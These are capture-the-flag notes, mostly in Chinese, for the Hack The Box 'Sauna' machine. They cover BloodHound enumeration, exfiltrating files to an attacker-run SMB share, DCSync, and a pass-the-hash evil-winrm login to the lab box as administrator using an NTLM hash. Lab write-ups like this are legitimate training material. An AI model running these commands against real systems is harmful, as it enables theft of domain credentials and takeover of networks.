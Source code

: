 ```yaml
---
description: SharpHound, BloodHound, Active Directory, ASREPRoasting,DCSync Attack
---
```


# Hack the box - Sauna

{% embed url="https://0xdf.gitlab.io/2020/07/18/htb-sauna.html#shell-as-fsmith" %}

注意事项

在使用sharphound收集AD信息时，不要使用kali自带的sharphound，需要从github上下载最新的bloodhound.exe.

{% embed url="https://0xdf.gitlab.io/2018/10/11/pwk-notes-post-exploitation-windows-file-transfers.html" %}

## Data Exfiltration，数据渗漏

当需要从windows传送文件到kali上时，可以使用netcat。大致思路是在kali上下载好nc.exe，使用python3 -m http.server 这个指令启动一个临时的http服务器。在Windows上将nc.exe下载并使用nc.exe 和kali自带的netcat传送文件。

在使用python impacket中的smb模组时，用impacket-smbserver指令，而不是smbserver.py。当我在使用smbserver.py时，我的kali出现了鼠标光标变成十字状的情况。当使用impacket-smbserver时，需要加上-smb2support，windows net.exe不支持smb1。

```
# Kali Command:
sudo impacket-smbserver -smb2support smb samba_share
# smb 是 smb share 的名字，samba_share是本地文件夹的名字。

# Windows Command:
net use \\10.10.16.3\smb
cd \\10.10.16.3\smb # 将当前的文件夹转到smb
# 注意使用smb而不是samba_share作为Windows上smb share的名字
```

## 数据处理

在将SharpHound.exe产生的zip文件传到kali后，用Upload Data而不是Import Graph来导入文件。

## DCSync 攻击

{% embed url="https://blog.netwrix.com/2021/11/30/what-is-dcsync-an-introduction" %}
关于DCSync 攻击不错的文章
{% endembed %}

总结一下文章的内容就是一些拥有

* Replicating Directory Changes
* Replicating Directory Changes All

权限的账户可以通过request domain replication获得用户密码的哈希函数（hash）。

## 通过WMI和Hash提权

{% embed url="https://www.ired.team/offensive-security/privilege-escalation/pass-the-hash-privilege-escalation-with-invoke-wmiexec" %}

evil-winrm -i 10.10.10.175 -u administrator -H 823452073d75b9d1cf70ebdf86c7f98e
